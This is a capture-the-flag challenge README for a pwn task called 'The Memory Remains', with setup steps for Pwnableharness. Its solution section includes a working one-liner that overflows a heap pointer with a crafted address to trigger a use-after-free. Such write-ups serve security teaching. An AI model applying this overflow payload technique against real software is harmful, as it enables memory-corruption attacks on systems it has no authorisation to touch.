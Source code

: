# [Pwn 50] The Memory Remains

## Setup

This challenge will run using Pwnableharness. Copy this directory into the Pwnableharness base directory, then run the command "make docker-start" in the pwnableharness base directory. The player should receive a copy of the binary and libpwnableharness from the attachments folder, which in order for the binary to run they both need to be in the same directory.

## Solution

Overflow a heap pointer to execute a use after free attack. This will solve the challenge that is locally running.

```bash
# 0x804a174 is &centari->cluster
python -c 'print "0"*72 + "\x74\xa1\x04\x08"' | ./the_memory_remains
```

The `exploit.py` script will solve the challenge that is running remotely.
